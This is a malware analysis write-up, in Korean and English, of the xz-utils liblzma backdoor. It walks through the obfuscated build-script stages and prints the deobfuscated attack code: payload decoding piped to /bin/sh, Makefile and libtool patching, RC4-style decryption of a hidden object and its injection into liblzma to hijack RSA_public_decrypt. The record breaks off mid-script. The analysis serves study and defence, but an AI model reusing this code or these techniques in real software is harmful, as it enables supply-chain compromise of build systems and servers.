

## 1. Information

### **1-1. 요약**

- CVSS 점수: **10/10**
- **2024.03.29(금)** 악성 활동 감지
- **Andres Freund** 가 보고함
- **배우는 JiaT75(JiaTan) - Jia Cheong Tan** 이라는 관리자
- **liblzma 라이브러리** 내에서 **xz 5.6.0 및 5.6.1** 사용

### **1-2. xz-utils에 대하여**

`xz-utils`는 LZMA 압축 알고리즘을 기반으로 하는 데이터 압축 유틸리티로 Linux 및 Unix 기반 시스템에서 데이터 압축과 압축 해제에 사용된다.

이 유틸리티는 신뢰할 수 있는 오픈소스 소프트웨어로 간주되어 왔지만, 이번 사례에서는 악성코드가 삽입된 버전이 배포되었다.

### **1-3. 추가 정보**

- 이 공격은 널리 사용되는 **오픈 소스 소프트웨어 에 대한 최초의 심각한 공급망 공격**
  으로 알려져 있다 .
- 미국 보안 연구원 **데이브 아이텔은 이것이 APT29 기반** APT 행위자에 기인한 패턴에 부합한다고 설명했다.

## **2. Target**

모든 인프라는 **Linux 기반 x86_64 아키텍처를** 사용한다 .

### **Impact**

- APT 공격을 수행하기 위하여 여러 가상의 인물 생성 및 사용
  - Jia Tan을 도운 인물
    - Hans Jansen
    - Jigar Kumar
    - Dennis Ens
- **Lasse Collin**
  XZ-Utils의 개발자로 사건 발생 초기 백도어의 책임을 추궁받음 (피해자)

### timeline



## **3. Analysis**

### XZ-Utils backdoor 스크립트

| Set up          | (De)obfuscation            | Inject                  |
| --------------- | -------------------------- | ----------------------- |
| configure.ac    | build-to-host.m4           | liblzma_la-crc64_fast.o |
| CMakeLists.txt  | bad-3-corrupt_lzma2.xz     | Makefile                |
| build.sh        | good-large_compressed.lzma | libtool                 |
| crc_x86_clmul.h | -                          | crc64_fast.c            |

1. **configure.ac, CMakeLists.txt**
   - 23.06.22
   - fast CRC 함수를
     초기 선택 조건
2. **build.sh**
   - 23.07.07
   - oss-fuzz 빌드 간
     ifunc support를 해제
3. **crc_x86_clmul.h**
   - 23.10.19
   - Exploit 수행 함수 사용
4. **bad-3-corrupt_lzma2.xz, good-large_compressed.lzma**
   - 24.02.23
   - 난독화된 백도어 바이너리 코드
5. **build-to-host.m4**
   - 24.02.24
   - 난독화 파일 호출 엔트리 파일

### Mechanism

1. 악성코드 삽입
   1. 공격자는 xz-utils의 소스코드나 실행 파일을 변조함
2. 백도어 활성화 조건
3. 명령 실행
4. C2 통신

**1. `build-to-host.m4`**

[m4/build-to-host.m4](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/build-to-host.m4)

```
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`if test -n "$gl_am_configmake"; then
  HAVE_PKG_CONFIGMAKE=1
else
  HAVE_PKG_CONFIGMAKE=0
fi
```

- `gl_am_configmake='./tests/files/bad-3-corrupt_lzma2.xz'`
- `HAVE_PKG_CONFIGMAKE=1`

```
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
```

- `gl_[$1]_prefix='xz'`

```
gl_path_map='tr "\t \-_" " \t_\-"'
```

- `gl_path_map='tr "\t \-_" " \t_\-"'`

```
if test "x$gl_am_configmake" != "x"; then
  gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'else
  gl_[$1]_config=''fi
```

- `gl_[$1]_config='sed \"r\n\" ./tests/files/bad-3-corrupt_lzma2.xz | eval 'tr "\t \-_" " \t_\-"' | xz -d 2>/dev/null'`
- `sed r\n` == `cat`
- `gl_[$1]_config=cat ./tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d`
- Deofuscate `tests/files/bad-3-corrupt_lzma2.xz`

```
AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
```

- Execute the deofuscate script

**2. `bad-3-corrupt_lzma2.xz`**

[test/files/bad-3-corrupt_lzma2.xz(Deobfuscated)](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/bad-3-corrupt_lzma2.sh)

```
####Hello####
#�U��$�
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
eval `grep ^srcdir= config.status`if test -f ../../config.status;then
    eval `grep ^srcdir= ../../config.status`
    srcdir="../../$srcdir"fi
export i="((head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +939)";
(xz -dc $srcdir/tests/files/good-large_compressed.lzma\
| eval $i\
| tail -c +31233\
| tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")\
| xz -F raw --lzma1 -dc\
| /bin/sh
####World####
```

```
(xz -dc $srcdir/tests/files/good-large_compressed.lzma\
| eval $i\
| tail -c +31233\
| tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")\
| xz -F raw --lzma1 -dc\
| /bin/sh
```

- If OS is not based on Linux, terminate script
- Set `srcdir`
- Deofuscate `tests/files/good-large_compressed.lzma`

**3. `good-large_compressed.lzma`**

[test/files/good-large_compressed.lzma(Deobfuscated)](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/good-large_compressed.sh)

```
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
C="pic_flag=\" $P\""
O="^pic_flag=\" -fPIC -DPIC\"$"
R="is_arch_extension_supported"
x="__get_cpuid("
p="good-large_compressed.lzma"
U="bad-3-corrupt_lzma2.xz"
```

- Set variables

```
[ ! $(uname)="Linux" ] && exit 0
```

- Check if the OS is based on Linux
- But there is no whitespace around `=` so that this line do nothing.

```
eval $zrKcVq
```

- Not declared variable

---

**if #1 - Running during configure in the tarball root directory**

```
if test -f config.status; then
    eval $zrKcSS
    eval `grep ^LD=\'\/ config.status`eval `grep ^CC=\' config.status`eval `grep ^GCC=\' config.status`eval `grep ^srcdir=\' config.status`eval `grep ^build=\'x86_64 config.status`eval `grep ^enable_shared=\'yes\' config.status`eval `grep ^enable_static=\' config.status`eval `grep ^gl_path_map=\' config.status`
```

- Check if `config.status` exists
- If `config.status` exists, print the variables in command

```
    vs=`grep -broaF '~!:_ W' $srcdir/tests/files/ 2>/dev/null`if test "x$vs" != "x" > /dev/null 2>&1;then
        f1=`echo $vs | cut -d: -f1`if test "x$f1" != "x" > /dev/null 2>&1;then
            start=`expr $(echo $vs | cut -d: -f2) + 7`
            ve=`grep -broaF '|_!{ -' $srcdir/tests/files/ 2>/dev/null`if test "x$ve" != "x" > /dev/null 2>&1;then
                f2=`echo $ve | cut -d: -f1`if test "x$f2" != "x" > /dev/null 2>&1;then
                    [ ! "x$f2" = "x$f1" ] && exit 0
                    [ ! -f $f1 ] && exit 0
                    end=`expr $(echo $ve | cut -d: -f2) - $start`eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`fi
            fi
        fi
    fi
```

```
cat $f1 | tail -c +$(echo $vs | cut -d: -f2) + 7 | haed -c +$(echo $ve | cut -d: -f2) - $start | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc
```

- Added in 5.6.1
- Find file that include string `~!:_ W` and `|_!{ -`
- (There is no file that include the magic strings)
- Check for `$f1` and `$f2` is identical and if `$f1` is exists

```
    eval $zrKccj
    if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
        exit 0
    fi
    if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
        exit 0
    fi
```

- Check GNU indirect function support is enabled

```
    if test "x$enable_shared" != "xyes";then
        exit 0
    fi
```

- Check shared library support is enabled

```
    if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
        exit 0
    fi
```

- Check system is based on x86_64 Linux

```
    if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc32_fast.c > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$R" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$x" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
        exit 0
    fi
```

- Check all crc ifunc codes
- [src/liblzma/check/crc64_fast.c](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc64_fast.c)
- `src/liblzma/check/crc32_fast.c` is not used for exploit
- [src/liblzma/check/crc_x86_clmul.h](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc_x86_clmul.h)

```
    if test "x$GCC" != 'xyes' > /dev/null 2>&1;then
        exit 0
    fi
    if test "x$CC" != 'xgcc' > /dev/null 2>&1;then
        exit 0
    fi
    LDv=$LD" -v"if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1;then
        exit 0
    fi
```

- Check GCC and GNU ld is enabled

```
    if ! test -f "$srcdir/tests/files/$p" > /dev/null 2>&1;then
        exit 0
    fi
    if ! test -f "$srcdir/tests/files/$U" > /dev/null 2>&1;then
        exit 0
    fi
```

- Check if backdoor files exists
- `p="good-large_compressed.lzma"`
- `U="bad-3-corrupt_lzma2.xz"`
- (If there is no backdoor files, how to access this procedure..?)

```
    if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64";then
        eval $zrKcst
```

- If `debian/rules` exists or `RPM_ARCH` is set to `xx86_64`, check below conditions.

```
        j="^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4"if ! grep -qs "$j" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        z="^am__uninstall_files_from_dir = {"if ! grep -qs "$z" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        w="^am__install_max ="if ! grep -qs "$w" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        E=$z
        if ! grep -qs "$E" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        Q="^am__vpath_adj_setup ="if ! grep -qs "$Q" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        M="^am__include = include"if ! grep -qs "$M" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        L="^all: all-recursive$"if ! grep -qs "$L" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        m="^LTLIBRARIES = \$(lib_LTLIBRARIES)"if ! grep -qs "$m" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        u="AM_V_CCLD = \$(am__v_CCLD_\$(V))"if ! grep -qs "$u" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
```

- Check that `liblzma/Makefile` contains all the lines that will be used as anchor points later for inserting new text into the `Makefile`.

```
        if ! grep -qs "$O" libtool > /dev/null 2>&1;then
            exit 0
        fi
```

- Check `libtool` file with PIC configure
- `O="^pic_flag=\" -fPIC -DPIC\"$"`

```
        eval $zrKcTy
        b="am__test = $U"
```

- `U="bad-3-corrupt_lzma2.xz"`

```
        sed -i "/$j/i$b" src/liblzma/Makefile || true
```

```
        sed -i "/^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4/iam__test = bad-3-corrupt_lzma2.xz" src/liblzma/Makefile || true
```

- Insert `$b` to `$j` in `src/liblzma/Makefile`
- `j="^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4"`
- `U="bad-3-corrupt_lzma2.xz"`
- `b="am__test = $U"`

```
        d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'`
        b="am__strip_prefix = $d"
        sed -i "/$w/i$b" src/liblzma/Makefile || true
```

- Insert `$b` to `$w` in `src/liblzma/Makefile`
- `w="^am__install_max ="`
- `gl_path_map='tr "\t \-_" " \t_\-"'`
- `d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'``
- `b="am__strip_prefix = $d"`

```
        b="am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"
        sed -i "/$E/i$b" src/liblzma/Makefile || true
        b="\$(top_srcdir)/tests/files/\$(am__test)"
        s="am__test_dir=$b"
        sed -i "/$Q/i$s" src/liblzma/Makefile || true
```

- Insert `$b` to `$E` in `src/liblzma/Makefile`
- Insert `$s` to `$Q` in `src/liblzma/Makefile`
- `z="^am__uninstall_files_from_dir = {"`
- `E=$z`
- `b="am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/`
- `Q="^am__vpath_adj_setup ="`
- `b="\$(top_srcdir)/tests/files/\$(am__test)"`
- `s="am__test_dir=$b"`

---

```
am__test = bad-3-corrupt_lzma2.xz
am__strip_prefix = tr "\\t \\-_" " \\t_\\-"
am__dist_setup = $(am_strip_prefix) | xz -d 2>/dev/null | $(SHELL)
am__test_dir = $(top_srcdir)/tests/files/$(am__test)

```

---

```
        h="-Wl,--sort-section=name,-X"if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
            h=$h",-z,now"fi
        j="liblzma_la_LDFLAGS += $h"
        sed -i "/$L/i$j" src/liblzma/Makefile || true
```

- Add `liblzma_la_LDFLAGS += -Wl,--sort-section=name,-X` to `src/liblzma/Makefile`.
- If `liblzma_la_LDFLAGS` not set `z`, `now` or `Wl`, `now`, add `z`, `now`.
- `Wl, now` forces `LD_BIND_NOW` behavior
  - The dynamic loader resolves all symbols at program startup time <-> Lazy bind
  - One reason this is normally done is for security
  - Global Offset Table(GOT) and Procedure Linkage Tables(PLT) can be marked read-only early in process startup, so that buffer overflows or write-after-free bugs cannot target those tables
  - It also has the effect of running GNU indirect function (ifunc) resolvers at startup during that resolution process, and the backdoor arranges to be called from one of those.
  - This early invocation of the backdoor setup lets it run while the tables are still writable, allowing the backdoor to replace the entry for `RSA_public_decrypt` with its own version.
- `L="^all: all-recursive$"`
- `j="liblzma_la_LDFLAGS += $h"`
- `h="-Wl,--sort-section=name,-X"`
- `if` condition makes `h="-Wl,--sort-section=name,-X,-z,now"`

```
        sed -i "s/$O/$C/g" libtool || true
```

- In libtool, `pic_flag=" -fPIC -DPIC"` changes
- To `pic_flag=" -fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"`
- Disable linker optimizations that could get in the way of subterfuge.
- `O="^pic_flag=\" -fPIC -DPIC\"$"`
- `P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"`
- `C="pic_flag=\" $P\""`

```
        k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
        sed -i "s/$u/$k/" src/liblzma/Makefile || true
        l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\            export top_srcdir='\$(top_srcdir)'; \\\\\n\            export CC='\$(CC)'; \\\\\n\            export DEFS='\$(DEFS)'; \\\\\n\            export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\            export INCLUDES='\$(INCLUDES)'; \\\\\n\            export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\            export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\            export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\            export CFLAGS='\$(CFLAGS)'; \\\\\n\            export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\            export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\            export libdir='\$(libdir)'; \\\\\n\            export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\            export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\        sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
        sed -i "/$m/i$l" src/liblzma/Makefile || true
        eval $zrKcHD
    fi
```

- `sed -i "s/$u/$k/" src/liblzma/Makefile || true`
- Changes `$u` to `$k` in `src/liblzma/Makefile`
- `u="AM_V_CCLD = \$(am__v_CCLD_\$(V))"`
- `k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"`
- `sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";`
- `"am__test_dir=\$(top_srcdir)/tests/files/\$(am__test)"`
- `"am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"`
- `sed rpath {file}` == `cat {file}`
- `cat $(top_srcdir)/tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d 2>/dev/null | \$(SHELL)`
- Same as `cat ./tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d | /bin/sh`
- `m="^LTLIBRARIES = \$(lib_LTLIBRARIES)"`
- `l` is in upper code block
- `sed -i "/$m/i$l" src/liblzma/Makefile || true`
- Insert `$l` next line of `$m`

---

**if #2 - run during make in the liblzma directory**

```
elif (test -f .libs/liblzma_la-crc64_fast.o) && (test -f .libs/liblzma_la-crc32_fast.o); then
```

- In this condition(`elif`), assume `make` in the liblzma directory instead of running during `configure` in the tarball root directory

```
    vs=`grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null`if test "x$vs" != "x" > /dev/null 2>&1;then
        f1=`echo $vs | cut -d: -f1`if test "x$f1" != "x" > /dev/null 2>&1;then
            start=`expr $(echo $vs | cut -d: -f2) + 7`
            ve=`grep -broaF '%.R.1Z' $top_srcdir/tests/files/ 2>/dev/null`if test "x$ve" != "x" > /dev/null 2>&1;then
                f2=`echo $ve | cut -d: -f1`if test "x$f2" != "x" > /dev/null 2>&1;then
                    [ ! "x$f2" = "x$f1" ] && exit 0
                    [ ! -f $f1 ] && exit 0
                    end=`expr $(echo $ve | cut -d: -f2) - $start`eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`fi
            fi
        fi
    fi
```

```
cat (echo `grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null` | cut -d: -f1)\
| tail -c +(echo 'grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null' | cut -d: -f2) + 7\
| head -c +(echo 'grep -broaF '%.R.1Z' $top_srcdir/tests/files/ 2>/dev/null' | cut -d: -f2) - (echo 'grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null' | cut -d: -f2) + 7\
| tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377"\
| xz -F raw --lzma2 -dc
```

- Added in 5.6.1
- Find file that include string `jV!.^%` and `%.R.1Z`
- (There is no file that include the magic strings)
- Check for `$f1` and `$f2` is identical and if `$f1` is exists

```
    eval $zrKcKQ
    if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc64_fast.c; then
        exit 0
    fi
    if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc32_fast.c; then
        exit 0
    fi
    if ! grep -qs "$R" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
        exit 0
    fi
    if ! grep -qs "$x" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
        exit 0
    fi
```

- Check the ifunc-enabled CRC source files
- `R="is_arch_extension_supported"`
- `x="__get_cpuid("`

```
    if ! grep -qs "$C" ../../libtool; then
        exit 0
    fi
    if ! echo $liblzma_la_LINK | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
        exit 0
    fi
```

- Check whether the build configuration has the extra flags added previously.

```
    if echo $liblzma_la_LINK | grep -qs -e "lazy" > /dev/null 2>&1;then
        exit 0
    fi
```

- Check there is no `lazy` to the linker options, which might override the `Wl`, `now`.

```
    N=0
    W=0
    Y=`grep "dnl Convert it to C string syntax." $top_srcdir/m4/gettext.m4`eval $zrKcjv
    if test -z "$Y"; then
        N=0
        W=88664
    else
        N=88664
        W=0
    fi
```

- This is selecting between two different offset values depending on the content of `gettext.m4`.
- The distributed xz tarballs do not contain that string in gettext.m4 (It does appear in `build-to-host.m4`)
- So the grep finds nothing, `$Y` is the empty string, and the true case of the if executes: `N=0` and `W=88792`

```
    xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" |
```

- `p="good-large_compressed.lzma"`
- `i` is exists in `bad-3-corrupt_lzma2.xz`
- `sed` command is inserting a newline after every byte of that output
- Setting up for piping into the remainder of the command line

```
LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' |
```

- RC4-like decryption function
- The code above was for 5.6.1
- In 5.6.0, second loop count set to `4096` instead of `8192`

```
xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
```

- `-single-stream` flag says to stop at the end of the first xz EOF marker instead of looking for additional files on standard input.
- This avoids reading the section of the input that we extracted with the `tail` command before.
- Write to `liblzma_la-crc64-fast.o`
- `N=0`
- `W=88664`
- `xz -dc --single-stream | ((head -c +88664 > /dev/null 2>&1) && head -c +0) > liblzma_la-crc64-fast.o || true`

```
xz -dc ./tests/files/good-large_compressed.lzma\
| eval "((head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +2048\        && (head -c +1024 >/dev/null) && head -c +939)"\
| LC_ALL=C sed "s/\(.\)/\1\n/g"\
| LC_ALL=C awk\
'BEGIN
{
    FS="\n";
    RS="\n";
    ORS="";
    m=256;
    for(i=0;i<m;i++)
    {
        t[sprintf("x%c",i)]=i;
        c[i]=((i*7)+5)%m;
    }
    i=0;
    j=0;
    for(l=0;l<8192;l++)
    {
        i=(i+1)%m;
        a=c[i];
        j=(j+a)%m;
        c[i]=c[j];
        c[j]=a;
    }
}
{
    v=t["x" (NF<1?RS:$1)];
    i=(i+1)%m;
    a=c[i];
    j=(j+a)%m;
    b=c[j];
    c[i]=b;
    c[j]=a;
    k=c[(a+b)%m];
    printf "%c",(v+k)%m
}'\
| xz -dc --single-stream\
| ((head -c +0 > /dev/null 2>&1) && head -c +88664) > liblzma_la-crc64-fast.o\
|| true
```

- [liblzma_la-crc64-fast.o](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/bin/liblzma_la-crc64-fast.o)
- First extracted the injected code in isolation[liblzma_la-crc64-fast_o_gz.bin](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/bin/liblzma_la_crc64_fast_o_gz.bin) by Florian Weimer

```
    if ! test -f liblzma_la-crc64-fast.o; then
        exit 0
    fi
```

- If failed the process that create `liblzma_la-crc64-fast.o`, exit script

```
    cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
```

- Copy the original file for backup

```
    V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_X86_CLMUL) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
```

- Inject this code to `crc64_fast.c`

```
    eval $yosA
    if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
    sed "/include \"crc_x86_clmul.h\"/a \\$V" | \
    sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2>/dev/null | \
    $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
```

- This if statement is running a pipeline of `sed` commands piped into `$CC` with the arguments `liblzma_la-crc64-fast.o` (adding that object as an input to the compiler) and `x c -` (compile a C program from standard input).
- It rebuilds an edited copy of crc64_fast.c (a real xz source file) and merges the extracted malicious .o file into the resulting object, overwriting the underscored real object file that would have been built originally for crc64_fast.c.
- The sed 1i tells the compiler the file name to record in debug info, since the compiler is reading standard input
- [src/liblzma/check/crc64_fast.c](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc64_fast.c)
- [injected-crc64_fast.c](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc64_fast-injected.c)
- That is, the crc64_resolve function, which is the ifunc resolver that gets run early in dynamic loading, before the GOT and PLT have been marked read-only, is now calling the newly inserted `_is_arch_extension_supported`, which calls `_get_cpuid`.
- `_get_cpuid` is provided by the backdoor .o, and it does a lot more before returning the cpuid information. In particular it rewrites the GOT and PLT to hijack calls to `RSA_public_decrypt`.

```
        cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o || true
        eval $BPep
        if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
            sed "/include \"crc32_arm64.h\"/a \\$V" | \
            sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
            $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
```

- Do same process when injecting script in `src/liblzma/check/crc64_fast.c`
- But there is no malicious object file named `liblzma_la-crc32.o` like `liblzma_la-crc64-fast.o`

```
            eval $RgYB
            if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
```

- If relink to .la file is available

```
                if test ! -f .libs/liblzma.so; then
                    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
                fi
```

- If the link succeed but didn't write the file, assume it failed and restore the backups.

```
                rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
```

- Remove the libraries.
- The `Makefile` link step is presumably going to happen next and recreate them.

```
            else
